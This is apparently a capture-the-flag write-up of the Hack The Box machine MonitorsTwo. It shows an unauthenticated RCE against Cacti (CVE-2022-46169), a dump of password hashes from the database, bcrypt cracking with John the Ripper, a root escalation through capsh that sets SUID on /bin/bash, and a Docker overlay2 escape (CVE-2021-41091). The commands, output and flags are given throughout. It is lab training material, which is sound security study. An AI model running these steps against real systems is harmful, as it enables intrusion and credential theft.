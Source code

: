 # MonitorsTwo
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.5

## 1. Recon
```bash
└─$ nmap -Pn -sC -sV -oA nmap/initial 10.10.11.211
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-04 10:43 CEST
Nmap scan report for 10.10.11.211
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.39 seconds
```

## 2. TCP-80
There is an active service on port 80 ! 

<p align="center">
  <img src="Images/home.png" />
</p>

We find a login form which we try to access with default credentials (such as `admin:admin`) but to no avail.

**BACKGROUND**

    "Cacti is an open-source, web-based network monitoring, performance, fault and configuration management framework designed as a front-end application for the open-source, industry-standard data logging tool [RRDtool]( https://en.wikipedia.org/wiki/RRDtool)." (from [Wikipedia](https://en.wikipedia.org/wiki/Cacti_(software)))

## 3. RCE - CVE-2022-46169
After a little research I find that it is possible to bypass the login and perform a RCE. So I found an [exploit](https://github.com/MarkStrendin/CVE-2022-46169/tree/main) that allowed me to have a shell.

<p align="center">
  <img src="Images/poc.png" />
</p>

Searching in the various folders, you can find the file `entrypoint.sh`, in the root directory, where there are credentials to access a mysql db.

```bash
www-data@50bca5e748b0:/$ cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

In the file we also find queries that are made to change the admin password so we know which table will contain this information and then we run a query on that table.

```bash
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
< --password=root cacti -e "select * from user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_trees    policy_hosts        policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb           on      on      on      on      on      2       1       1       1       1       on      -1      -1 -1               0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1               -1      -1      -1              0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      on      on      on      1       1       1       1       1       on      -1      -1 on       0       0       2135691668
```

In addition to the admin we find another user and therefore the idea is to try to crack the password using `JohnTheRipper`.

```bash
└─$ john hash_pass --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)     
1g 0:00:01:23 DONE (2023-08-04 15:57) 0.01203g/s 102.6p/s 102.6c/s 102.6C/s lilpimp..coucou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Once the password is found, we connect via ssh and find the user flag.

```bash
└─$ ssh marcus@10.10.11.211
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 04 Aug 2023 01:58:49 PM UTC

  System load:                      0.0
  Usage of /:                       63.0% of 6.73GB
  Memory usage:                     15%
  Swap usage:                       0%
  Processes:                        239
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:4c05


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ ls
user.txt
marcus@monitorstwo:~$ cat user.txt 
5e26ec3209c05ec886eef90b1da62b00
```

## 4. User to ROOT
We are in a container and the first thing I checked is its version.

```bash
marcus@monitorstwo:/tmp$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

Searching for this version of Docker on the internet, it was discovered that it is vulnerable and in particular the first result is an [exploit](https://github.com/UncleJ4ck/CVE-2021-41091) which refers to the CVE-2021-41091 to which this vulnerability refers.

On the exploit's github page, it is noted that the SUID of `/bin/bash` must be set for the exploit to work.

To search for a solution, [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) was used, both logged in by *marcus*, without finding anything, and from the previously established session.

<p align="center">
  <img src="Images/capsh.png" />
</p>

It is interesting what linpeas reports in the "*Files with Interesting Permissions*" as there is `capsh` which, after a short search, turned out to be the point through which the SUID can be set. In particular, the command present in an article of [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) was used.

```bash
www-data@50bca5e748b0:/var/www/html$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
whoami
root
chmod u+s /bin/bash
```

At this point we run the exploit, loaded by opening a local python server.

```bash
marcus@monitorstwo:/tmp$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

Then we run `bash -p` in the directory notified by the exploit and get the root flag.

```bash
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# ls
exp.sh  linpeas_linux_amd64  user.txt
bash-5.1# cat /root/root.txt 
d5acf148181ca7850891559a2fec2c26
```